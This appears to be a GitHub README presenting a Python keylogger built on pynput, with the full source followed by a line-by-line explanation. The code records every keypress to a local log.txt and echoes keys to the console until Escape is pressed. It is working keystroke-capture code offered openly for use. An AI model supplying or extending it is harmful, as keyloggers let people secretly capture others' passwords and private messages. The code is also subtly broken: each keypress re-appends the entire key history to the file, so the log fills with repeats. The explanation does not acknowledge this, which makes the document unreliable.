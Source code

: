 # Keylogger
Keylogger using Python.

This keylogger essentially tracks keyboard events, logging pressed keys to a file and providing basic feedback in the console. It stops listening for events when the Escape key is pressed.

import pynput
from pynput.keyboard import Key, Listener

keys = []

def on_press(key):
    keys.append(key)
    write_file(keys)

    try:
        print('Alphanumeric key {0} pressed'.format(key.char))
    except AttributeError:
        print('Special key {0} pressed'.format(key))

def write_file(keys):
    with open('log.txt', 'a') as f:
        for key in keys:
            k = str(key).replace("'", "")
            if k.find('space') > 0:
                f.write(' ')
            elif k.find('Key') == -1:
                f.write(k)
            
def on_release(key):
    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

Here's a detailed explanation of the code:

Import:

    import pynput: Imports the pynput library, providing tools for controlling and monitoring input devices.
    from pynput.keyboard import Key, Listener: Specifically imports the Key class for representing keys on the keyboard and the Listener class for monitoring keyboard events.

Variables:

    keys = []: Initializes an empty list named keys to store pressed keys.

Functions:

    on_press(key): This function is called when a key is pressed:
        It appends the pressed key to the keys list.
        It calls the write_file function to log the pressed keys to a file.
        It tries to print the character of the key using key. char. If it's not an alphanumeric key (e.g., Control, Shift), it prints a message about the special key instead.
    write_file(keys): This function writes the keys in the keys list to a file named log.txt:
        It opens the file in append mode ('a') to add new keys without overwriting existing content.
        It iterates through each key in the list:
            It formats the key for logging by removing single quotes and handling space keys.
            It writes the formatted key to the file, excluding keys represented as Key.<name> (e.g., Key.enter).
    on_release(key): This function is called when a key is released:
        It prints a message indicating the released key.
        If the released key is the Escape key (Key.esc), it returns False to stop the listener.

Main execution:

    with Listener(on_press=on_press, on_release=on_release) as listener:: Creates a keyboard listener object and sets the on_press and on_release functions as callbacks for corresponding events.
    listener.join(): Starts the listener and keeps it running until it's stopped (e.g., by pressing Escape).
